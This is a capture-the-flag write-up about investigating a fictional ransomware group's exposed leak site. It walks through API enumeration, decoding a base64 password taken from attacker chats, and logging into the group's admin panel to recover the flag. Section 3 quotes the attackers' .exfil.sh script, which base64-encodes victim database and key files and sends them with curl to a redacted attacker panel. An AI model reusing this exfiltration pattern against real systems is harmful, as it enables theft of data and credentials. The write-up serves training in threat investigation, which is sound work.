




# 👖 Pantalones CTF — Write-up

> A CTF investigation into exposed attacker infrastructure, leaked secrets,
> poor credential handling, API enumeration, and operational security failures.

## 🎯 Objective

Investigate the Pantalones ransomware group's exposed infrastructure and
discover the hidden flag.

---

## 🛠️ Tools

- Cyberchef
- Web browser
- Source-code inspection
- HTTP/API analysis

---

## 🧰 Skills & Techniques

- OSINT
- Web investigation
- API enumeration
- Source-code analysis
- Secret discovery
- Base64 decoding
- Credential analysis
- Authentication testing
- Threat intelligence
- Attacker OPSEC analysis

---

# 🔎 1. Initial Reconnaissance

The challenge presented a leak site containing multiple victims.

Two particularly interesting targets were:

- QuantumCore Systems
- AetherFlow Enterprises

AetherFlow was especially interesting because its leaked archive contained
not only business data but also a hidden operational script.

### Pantanoles Site


 
### AetherFlow-LeakFiles


---

# 🕵️ 2. Discovering the Hidden `.exfil.sh`

Inside the AetherFlow leak, I found:

```text
aetherflow/
├── api_keys_internal.yaml
├── route_algorithms_PROPRIETARY.sql
├── customers.sql
└── .exfil.sh

```


# 🕵️ 3. Analysis .exfil.sh

The script revealed information about how the attackers were transferring
stolen files to their infrastructure.

It contained:

- A panel address
- An API endpoint
- An authentication header
- An upload action
- A list of files being exfiltrated
- Base64 encoding of file contents

A sanitized representation of the relevant logic looked like:

```

#!/bin/bash
# aetherflow staging dump - vex 05/30
PANEL="[REDACTED]"
KEY="[REDACTED]"

TARGETS=(
    "route_algorithms_PROPRIETARY.sql"
    "customers.sql"
    "api_keys_internal.yaml"
)

for f in "${TARGETS[@]}"; do
    [ -f "$f" ] || continue
    # dont upload ourselves lol
    [ "$f" = ".exfil.sh" ] && continue
    b64=$(base64 -w0 "$f")
    curl -s -X POST "${PANEL}/api.php?action=upload" \
        -H "X-Panel-Key: ${KEY}" \
        -d "chunk=${b64}&fname=${f}&tag=aetherflow"
    echo "[+] sent: $f"
done

# TODO: delete this before zipping

```

---

# 🌐 4. API Investigation

After identifying the API endpoint from the leaked script, I investigated
the available functionality.

The API revealed several actions:

- upload
- status
- messages
- decrypt
- wallets
- payloads
- exfil

The API became an important source of threat intelligence.

I focused on information-gathering functionality rather than destructive
operations.


---

# 🧩 5. API Discovery

After discovering the exposed API, I first checked what functionality was available.

At this point, I tried the available actions to understand how the API worked.

Most of them did not provide anything useful for the flag, but the messages action stood out.

I tested:

```
api.php?action=messages
```
The API responded with:

- missing required parameter: conversation_id

This revealed that the messages endpoint required another parameter.


---

# 🔎 6. Enumerating Conversation IDs

I initially tested a conversation ID using the parameter shown in the error:

```
api.php?action=messages&conversation_id=##
```
The response indicated that the conversation could not be found.



More importantly, the API provided a useful hint:

```
{
  "error": "conversation not found",
  "hint": "valid id provided (ex. conversation_id=0)"
}
```
That gave me a valid starting point.

I then checked the conversation IDs sequentially:

- conversation_id=0
- conversation_id=1
- conversation_id=2
- conversation_id=3
- conversation_id=4

Some conversations contained useful information, while others were not relevant to the flag.

This was a simple example of parameter enumeration based on application error messages.

valid id provided (ex. conversation_id=0)

The API error revealed a valid conversation ID to begin enumeration.

---

# 💬 7. Finding the Useful Internal Conversations

The conversation data became much more interesting once I started checking the valid IDs.

The messages revealed information about the attackers' activities, infrastructure and mistakes.

One particularly important conversation discussed the AetherFlow operation and the accidentally exposed .exfil.sh file.

The attackers explicitly realized that the script exposed information about their infrastructure.

This connected the earlier file discovery with the internal attacker communications.



Internal attacker communications revealed the significance of the exposed .exfil.sh file.

---

# 🧠 8. Attacker OPSEC Failure

The internal communications confirmed that the attackers knew about their mistake.

They discussed the fact that .exfil.sh had accidentally been included in the AetherFlow archive.

The script contained information about:

- The attacker panel
- The API endpoint
- The authentication mechanism

One attacker assumed that the file would probably remain unnoticed because it was a dotfile.

That turned out to be a bad assumption.

Lesson

### Hidden does not mean secure.

A file beginning with . may not appear in a normal directory listing, but it is still part of the archive and can be discovered during investigation.



Attackers discussing their own OPSEC mistake.

---

# 🔐 10. Credential Discovery

While investigating the internal messages, I found another interesting
conversation.

One attacker asked another for their FTP password after resetting their
machine.

Instead of using a secure password manager, the password was shared in the
conversation in encoded form.

The value looked like:

[REDACTED_BASE64_VALUE]

The attacker described it as "encoded."

This immediately suggested Base64.



---

# 🧪 11. Base64 Decoding

I decoded the value using CyberChef.

The important observation was that the value was encoded, not encrypted.

Base64

Base64 is a binary-to-text encoding scheme.

It does not provide confidentiality.

Anyone who obtains a Base64-encoded password can decode it.

Example
Encoded data
     ↓
Base64 decode
     ↓
Original plaintext

This recovered the password associated with the attacker account.


---

# 🚪 12. Discovering the Admin Panel

The Pantalones site contained an administrative interface:

admin panel


Username
Password


Authenticate

The attacker conversations had already revealed information about their
credential practices.

Using the credentials discovered during the CTF investigation, I tested
authentication against the challenge's admin panel.

The credentials were accepted.


---

# 🖥️ 13. Admin Panel Access

After successful authentication, I reached the administrative interface.

This was the final major step in the investigation.

The important point was that the admin compromise did not require a
sophisticated exploit.

Instead, the access chain resulted from:

Poor OPSEC
     +
Credential sharing
     +
Weak encoding
     +
Exposed infrastructure


---

# 🏁 14. Finding the Flag

The final flag was located inside the administrative panel.

🎯 Flag

```
flare{pantal0n3s_g0t_pantsed_2026}
```

